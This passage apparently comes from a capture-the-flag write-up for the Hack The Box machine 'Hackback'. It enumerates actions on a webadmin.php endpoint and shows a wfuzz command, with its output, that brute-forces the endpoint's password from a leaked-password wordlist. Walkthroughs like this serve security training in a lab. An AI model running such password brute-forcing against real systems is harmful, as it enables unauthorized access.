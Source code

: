#### webadmin.php

I’ll use the other parameters from the javascript to build a url. I’ll start with hackthebox, and leave the password as \*s, and try each of the actions. Everything I put in results in a 302 redirect, but in burp, I can see sometimes data is returned.

| Parameters | Result |
| --- | --- |
| `action=show&site=hackthebox&password=********&session=` | No Data |
| `action=list&site=hackthebox&password=********&session=` | 1551306419129 |
| `action=exec&site=hackthebox&password=********&session=` | 1551306481235 |
| `action=init&site=hackthebox&password=********&session=` | No Data |

For `action=list` it is complaining about the key. I’ll find the password with `wfuzz` (where `--hh 17` comes from running it without, and seeing what I can filter, killing it, and adding that):

```

root@kali# wfuzz -c -w /usr/share/seclists/Passwords/darkweb2017-top1000.txt --hw 0 --hh 17 'http://admin.hackback.htb//2bb6916122f1da34dcd916421e531578/webadmin.php?action=list&site=hackthebox&password=FUZZ&session='
********************************************************
* Wfuzz 2.3.4 - The Web Fuzzer                         *
********************************************************

Target: http://admin.hackback.htb//2bb6916122f1da34dcd916421e531578/webadmin.php?action=list&site=hackthebox&password=FUZZ&session=
Total requests: 1000

==================================================================
ID   Response   Lines      Word         Chars          Payload    
==================================================================

000007:  C=302      7 L       15 W          197 Ch        "12345678"

Total time: 2.237437
Processed Requests: 1000
Filtered Requests: 999
Requests/sec.: 446.9397

```

With the password, when I enter action list, I still get a 302, but now with data:

![1551526130551](https://0xdfimages.gitlab.io/img/1551526130551.png)

If I go to the fake HTB login, and enter something, a new log shows up:

```

Array
(
    [0] => .
    [1] => ..
    [2] => 8870c91857abf06f5f0fe0d9acea7f53d846be75c18ab95a0018a32a6b5518f7.log
    [3] => e691d0d9c19785cf4c5ab50375c10d83130f175f7f89ebd1899eee6a7aab0dd7.log
)

```
